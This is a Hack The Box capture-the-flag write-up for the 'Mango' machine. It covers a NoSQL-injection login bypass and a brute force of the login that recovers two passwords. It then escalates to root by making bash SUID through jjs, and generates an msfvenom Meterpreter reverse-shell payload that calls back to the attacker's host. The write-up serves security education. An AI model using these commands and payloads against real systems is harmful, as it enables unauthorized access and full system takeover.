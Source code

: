 ```yaml
---
layout: single
title: "Mango write-up"
date: 2020-04-17 00:22:00 -0000
categories: hackthebox
permalink: /htb/htbMango
tags: [mongodb, jjs, PrependSetuid, jjs bash SUID]
header:
  teaser: /asset/htbwriteup/linux/mango/intro.png
  teaser_home_page: true
  
---
```


# HTB - Mango

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/intro.png "mango intro")
## Recon
    $ nmap -Pn -sCV -p22,80,443 -oN nmap/Basic_10.10.10.162.nmap 10.10.10.162 
    
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/1.png)

- From the nmap scan, there are 3 services, OpenSSH 7.6p1 and http Apache 2.4.29 on port 80 and also https Apache titled Mango | Search Base on port 443.

- As usual, we added 10.10.10.162 `staging-order.mango.htb` to our `/etc/hosts` file. It is a subdomain under `mango.htb`. We started to browse to port 443 which is a login page and we got a hint that it is likely `MongoDB` by guessing the box's name `Mango` XD.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/login.png)

- After googling, i found MongoDB injection from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). After testing with BurpSuite, we can confirm that the login page is vulnerable to NoSQL injection as we get redirected to `home.php` after we bypassed the authentication page.

- There is a python script to bruteforce the login page that we found from [here](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login).

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/4.png)

- To use the script, we just need to modify the `url, Host and PHPSESSID` as below.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/5.png)

## Exploit
- run the script and we got 2 credentials for `admin` and `mango` users.
-		$ python brute.py
-	    [*] Found admin:t9KcS3>!0B#2 
		[*] Found mango:h3mXK8RhU~f{]f5H

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/6.png)

- Without a doubt, we managed to SSH into mango user. We try to login to admin user through SSH but it failed earlier.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/8.png)

#### From mango to admin shell:
- We list all the users on the machine and got 2 users that have login shell which are admin and mango.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/9.png)

- mango user can't view the user.txt flag. However, we can `su` into admin and got the flag.
 
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/10.png)

## Privilege escalation

#### Reads or disclose files outside a restricted file system: 
- As usual, we will use [`LinEnum`](https://github.com/rebootuser/LinEnum) to enumerate for ways to escalate to `root`.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/11.png)

- LinEnum gave us interesting SGID file that is jjs. `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/12.png)

- By referring to [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/), it may be used to do privileged reads or disclose files outside a restricted file system. So, we can read root's files using this method.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/13.png)

- So, we need to point the file that need to be read and we got the `root.txt` flag. 

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/14.png)

#### Get a root shell by making bash SUID using jjs:
- `exec('chmod u+s /bin/bash')`, where we get `euid as (root)`
- 

    admin@mango:/home/admin$ jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    admin@mango:/home/admin$ /bin/bash -p
    bash-4.4# id
    uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

#### Meterpreter shell with the `PrependSetuid` option to root shell:

-  Generate elf meterpreter and transfer our elf to victim machine.

		fesal@de7fx:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 PrependSetuid=true -f elf -o rev

- On victim machine.


		admin@mango:/tmp$ chmod +x rev
		admin@mango:/tmp$ /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
		Warning: The jjs tool is planned to be removed from a future JDK release
		jjs> Java.type('java.lang.Runtime').getRuntime().exec('/tmp/rev').waitFor()

- On kali machine.

		Meterpreter session 1 opened (10.10.14.40:4444 -> 10.10.10.162:37425) at 2020-03-09 21:53:16 

		msf5 exploit(multi/handler) > sessions 1
		[*] Starting interaction with 1...

		meterpreter > getuid
		Server username: uid=0, gid=1001, euid=0, egid=1001
		meterpreter > shell
		Process 5656 created.
		Channel 1 created.
		id
		uid0(root) gid=1001(admin) groups=1001(admin)

That's great, now we are in root shell ---- :)
